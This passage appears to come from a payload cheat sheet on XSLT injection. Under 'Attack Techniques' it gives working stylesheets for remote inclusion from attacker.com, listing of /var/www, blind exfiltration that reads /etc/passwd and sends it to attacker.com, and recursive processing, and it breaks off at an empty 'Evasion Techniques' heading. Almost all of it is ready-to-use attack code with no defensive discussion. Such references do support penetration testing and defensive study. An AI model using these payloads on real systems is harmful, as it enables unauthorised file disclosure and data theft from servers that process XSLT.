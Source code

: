 ## Attack Techniques

### Remote File Inclusion

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:include href="http://attacker.com/malicious.xsl"/>
  <xsl:template match="/">
    <!-- Content here -->
  </xsl:template>
</xsl:stylesheet>
```

### File System Access

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:for-each select="collection('file:///var/www/')">
      <xsl:value-of select="document-uri(.)"/><br/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### Blind XSLT Injection (Data Exfiltration)

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:variable name="secret" select="document('/etc/passwd')"/>
    <xsl:value-of select="document(concat('http://attacker.com/?data=', encode-for-uri($secret)))"/>
  </xsl:template>
</xsl:stylesheet>
```

### Recursive Processing

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:variable name="eval">
      <root>
        <xsl:value-of select="system-property('xsl:vendor')"/>
      </root>
    </xsl:variable>
    <xsl:apply-templates select="$eval"/>
  </xsl:template>
</xsl:stylesheet>
```

## Evasion Techniques

